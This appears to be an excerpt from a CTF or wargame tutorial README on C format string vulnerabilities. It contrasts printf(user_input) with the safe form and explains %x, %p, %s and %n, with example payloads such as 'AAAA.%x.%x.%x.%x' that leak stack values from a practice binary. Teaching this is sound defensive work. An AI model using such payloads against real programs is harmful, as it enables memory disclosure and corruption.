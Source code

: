 📖 printf() internals
📖 Format String Basics

2. Format String Vulnerability
The Problem:
c// VULNERABLE
printf(user_input);

// SAFE
printf("%s", user_input);
Why it's dangerous:
bash# Normal
$ echo "Hello" | ./level3
Hello

# Exploitation
$ echo "%x %x %x" | ./level3
200 b7fd1ac0 b7ff37d0  # Leaks stack values!
What you can do:

Read memory using %x, %s, %p
Write memory using %n
Crash program with invalid formats

Learn More:

📖 Format String Exploitation ⭐ MUST READ
📖 Format String Attack
🎥 YouTube: Format String Vulnerability
🛠️ Practice: pwnable.kr - passcode

3. Format Specifiers
Common Specifiers:
c%d    // Decimal integer
%x    // Hexadecimal
%s    // String (reads pointer)
%p    // Pointer address
%n    // WRITE number of bytes printed so far to address!
%hn   // Write as short (2 bytes)
%hhn  // Write as byte (1 byte)
Reading Stack:
bash# Test input
echo "AAAA.%x.%x.%x.%x" | ./level3

# Output
AAAA.200.b7fd1ac0.b7ff37d0.41414141
#                            ^^^^^^^^
#                            Our "AAAA" (0x41 = 'A')
Direct Parameter Access:
bash# Instead of %x %x %x %x to reach 4th parameter:
echo "%4$x" | ./level3
41414141  # Directly reads 4th parameter
Learn More:
